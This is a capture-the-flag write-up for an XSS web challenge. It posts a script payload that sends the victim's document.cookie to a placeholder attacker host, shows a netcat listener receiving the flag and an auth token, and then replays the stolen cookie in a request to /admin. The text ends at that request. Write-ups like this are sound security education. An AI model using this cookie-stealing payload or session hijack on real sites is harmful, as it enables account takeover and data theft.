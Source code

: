 Site: <https://cwo-xss.web.ctfcompetition.com/>

Post message: `<SCRIPT>new Image().src="https://PUBLIC_URL/"+document.cookie</SCRIPT>`

Note that there will be two incoming requests, one from ourselves and one from the victim.

```
$ nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from localhost 46010 received!
GET /?flag=CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r};%20auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz HTTP/1.1
## ...
Referer: https://cwo-xss.web.ctfcompetition.com/exploit?reflect=%3CSCRIPT%3Enew%20Image().src=%22http://PUBLIC_URL/%22+document.cookie%3C/SCRIPT%3E
## ...
```

**Flag 1**: `CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}`

### Flag 2

A second flag can be obtained by using the `auth` token in the cookie.

Without cookie:

```
GET /admin HTTP/1.1
Host: cwo-xss.web.ctfcompetition.com


```

```
HTTP/1.1 302 FOUND
Date: Sun, 23 Jun 2019 11:50:37 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 209
Server: gunicorn/19.9.0
Location: http://cwo-xss.web.ctfcompetition.com/
Via: 1.1 google

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/">/</a>.  If not click the link.
```

With cookie:

```
GET /admin HTTP/1.1
Host: cwo-xss.web.ctfcompetition.com
Cookie: auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz


```
